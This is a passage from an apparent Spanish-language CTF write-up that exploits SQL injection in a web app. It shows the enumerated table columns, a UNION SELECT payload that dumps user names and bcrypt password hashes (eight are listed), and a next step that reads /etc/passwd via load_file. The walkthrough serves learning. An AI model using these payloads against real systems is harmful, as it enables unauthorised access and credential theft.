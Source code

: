     personal_access_tokens:name,
    personal_access_tokens:token,
    personal_access_tokens:abilities,
    personal_access_tokens:last_used_at,
    personal_access_tokens:created_at,
    personal_access_tokens:updated_at,
    tasks:id,
    tasks:title,
    tasks:description,
    tasks:progress,
    tasks:status,
    tasks:owner,
    tasks:created_at,
    tasks:updated_at,
    users:id,
    users:name,
    users:email,
    users:country,
    users:bio,
    users:email_verified_at,
    users:password,
    users:remember_token,
    users:created_at,
    users:updated_at

extraemos usuario y contraseñas con:

    {"id":"0 union select 1,2,group_concat(concat('\n', name, ':', password)) from users;-- -", "secret":true}

big0us:$2y$10$Cuf2DxXbrTQSKYWL6n3Kbeqq6TaZ3KCgISO8FdGpsNZ5aEa6lSx6G,

celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6,

luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.,

tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS,

o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW,

watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq,

mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK,

bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm

y tenemos usuarios y contraseñas hasheadas, sin embargo no es util

Otra cosa que puedo hacer con una inyección SQL es intentar leer archivos. Para asegurarme de tener la sintaxis correcta, 
comenzaré con /etc/passwd usando load_file: 

<img src="/secciones/posts/imagenes/altered/salida1.png" alt="Texto alternativo" width="500">
